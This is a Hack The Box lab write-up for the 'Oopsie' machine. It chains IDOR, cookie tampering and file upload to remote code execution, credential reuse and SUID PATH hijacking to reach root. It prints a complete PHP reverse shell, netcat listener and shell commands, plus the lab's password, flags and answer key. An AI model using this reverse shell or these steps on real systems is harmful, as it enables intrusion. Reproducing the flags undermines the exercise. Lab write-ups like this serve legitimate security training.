








# Oopsie

This write-up is provided strictly for educational purposes, to demonstrate how insecure direct object references (IDOR), weak access controls, credential reuse, and SUID misconfigurations can be leveraged in controlled lab environments.

## Overview

This write-up documents the compromise of the _Oopsie_ machine from Hack The Box Starting Point (VIP).

The attack path is fully evidence-based and reproducible. No brute force or guessing was used.

The compromise involved:

- Web application enumeration
- IDOR exploitation
- Cookie manipulation
- Arbitrary file upload leading to RCE
- Credential reuse to pivot to a local user
- SUID privilege escalation via PATH hijacking
- Root flag extraction

---

## Answers Summary

- **Intercepting tool type** → `proxy`
- **Login directory path** → `/cdn-cgi/login`
- **Modified value to access upload page** → `cookie`
- **Admin access ID** → `34322`
- **Upload directory** → `/uploads`
- **File containing shared password** → `db.php`
- **Executable with -group option** → `find`
- **SUID execution privileges** → `root`
- **Meaning of SUID** → `Set Owner User ID`
- **Insecurely called executable** → `cat`
- **User Flag** → `f2c74ee8db7983851ab2a96a44eb7981`
- **Root Flag** → `af13b0bee69f8a877c3faf667f7beacf`

---

## 1. Web Enumeration

After starting the machine, the web service was accessed:

```
http://target-ip
```

Inspecting the page source revealed:

```
<script src="/cdn-cgi/login/script.js"></script>
```

This identified the login directory:

```
/cdn-cgi/login
```


---

## 2. IDOR Exploitation

After guest authentication, the admin panel used a parameterized structure:

```
admin.php?content=accounts&id=2
```

Modifying the `id` parameter resulted in disclosure of other user data.

Changing:

```
id=2 → id=1
```

Revealed the admin account with:

```
Access ID: 34322
```

This confirms an **Insecure Direct Object Reference (IDOR)** vulnerability.



---

## 3. Cookie Manipulation

Access to the upload page was restricted.

Intercepted request showed:

```
Cookie: user=2233; role=guest
```

Modifying the cookie to:

```
Cookie: user=34322; role=admin
```

Granted access to the upload functionality.


---

## 4. File Upload and RCE

A PHP reverse shell was created manually as `reverse-shell.php`.

The IP was set to the attacking machine (`target-ip`) and port `8888`.

### reverse-shell.php (Full File Used)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'target-ip';
$port = 8888;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    if ($pid == -1) { exit(1); }
    if ($pid) { exit(0); }
    if (posix_setsid() == -1) { exit(1); }
    $daemon = 1;
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) { exit(1); }

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) { exit(1); }

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

while (1) {
    if (feof($sock)) { break; }
    if (feof($pipes[1])) { break; }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        $input = fread($sock, $chunk_size);
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        $input = fread($pipes[1], $chunk_size);
        fwrite($sock, $input);
    }

    if (in_array($pipes[2], $read_a)) {
        $input = fread($pipes[2], $chunk_size);
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
?>
```




Listener started:

```bash
nc -lvnp 8888
```

Triggering the shell:

```
http://target-ip/uploads/reverse-shell.php
```



Shell obtained as:

```
www-data
```

Shell stabilized using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



---

## 5. Credential Discovery

Navigating to the application directory:

```bash
cd /var/www/html/cdn-cgi/login
ls
```

Files present:

```
admin.php
 db.php
 index.php
 script.js
```

Reading `db.php`:

```bash
cat db.php
```

Revealed:

```php
mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

The password is reused for the system user `robert`.



---

## 6. Lateral Movement to robert

Switching user:

```bash
su robert
```

Password:

```
M3g4C0rpUs3r!
```

User flag retrieved:

```bash
cat /home/robert/user.txt
```

User flag:

```
f2c74ee8db7983851ab2a96a44eb7981
```



---

## 7. Privilege Escalation

Checking groups:

```bash
id
```

Result:

```
groups=1000(robert),1001(bugtracker)
```

Finding files owned by bugtracker group:

```bash
find / -group bugtracker 2>/dev/null
```

Found:

```
/usr/bin/bugtracker
```

Checking permissions:

```bash
ls -la /usr/bin/bugtracker
```

```
-rwsr-xr-- 1 root bugtracker
```

The `s` indicates SUID.

Inspecting the binary:

```bash
strings /usr/bin/bugtracker
```

Revealed insecure execution of:

```
------------------
: EV Bug Tracker :
------------------
Provide Bug ID:
---------------
cat /root/reports/
```

Since `cat` is called without an absolute path, PATH hijacking is possible.

---

## 8. Exploiting PATH Hijacking

Creating malicious cat in /tmp:

```bash
cd /tmp
echo "/bin/sh" > cat
chmod +x cat
```

Prepending /tmp to PATH:

```bash
export PATH=/tmp:$PATH
```

Executing bugtracker:

```bash
/usr/bin/bugtracker
```

Result:

```
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# whoami
whoami
root
```

---

## 9. Retrieving Root Flag

Since the cat binary was hijacked during the PATH exploitation phase, head was used instead to safely read the root flag.

```bash
head /root/root.txt
```

Root flag:

```
af13b0bee69f8a877c3faf667f7beacf
```



---

## Key Takeaways

- IDOR vulnerabilities allow privilege escalation within web applications.
- Client-side access control via cookies is insufficient.
- Arbitrary file upload can lead to full remote code execution.
- Credential reuse enables lateral movement.
- SUID binaries combined with insecure PATH usage lead to root compromise.

---

## Conclusion

The compromise of Oopsie required:

1. Exploiting IDOR to obtain admin access.
2. Manipulating cookies to bypass upload restrictions.
3. Uploading a reverse shell to gain RCE.
4. Extracting reused credentials from application configuration.
5. Pivoting to a local user.
6. Exploiting a misconfigured SUID binary via PATH hijacking.
7. Retrieving both user and root flags.

This lab demonstrates how weak web application logic and improper system configurations can chain into full system compromise.
